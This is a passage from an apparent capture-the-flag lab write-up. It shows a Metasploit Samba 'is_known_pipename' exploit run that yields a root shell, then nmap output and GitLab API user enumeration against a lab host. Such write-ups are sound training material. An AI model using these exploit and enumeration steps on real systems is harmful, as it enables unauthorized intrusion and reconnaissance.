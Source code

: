 ```
   11  Linux PPC64
   12  Linux PPC64 (LE)
   13  Linux SPARC
   14  Linux SPARC64
   15  Linux s390x


msf5 exploit(linux/samba/is_known_pipename) > set target 2
target => 2
msf5 exploit(linux/samba/is_known_pipename) > run
```
Now after running we will have a shell as root:
```
whoami && hostname
root
lazy
```

## LEAKAGE

### NMAP
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 19:52 BST
Nmap scan report for 172.31.1.6
Host is up (0.056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7a:5a:dd:ad:4c:6f:6c:4a:60:06:4f:46:53:77:96:15 (RSA)
|   256 83:ff:c2:72:62:11:4a:86:f9:bf:41:2c:b6:2b:97:a4 (ECDSA)
|_  256 bf:93:3b:d1:6b:ea:32:99:6c:46:75:7b:e2:f1:8a:d9 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 57 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://172.31.1.6/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.09 seconds
```

### GITLAB
Through the gitlab api, we are able to enumerate users on the website:
```
http://172.31.1.6/api/v4/users/1

web_url	"http://172.31.1.6/root"

http://172.31.1.6/api/v4/users/2

web_url	"http://172.31.1.6/jonathan"
```
By heading to `http://172.31.1.6/jonathan` we can see some public repositories.
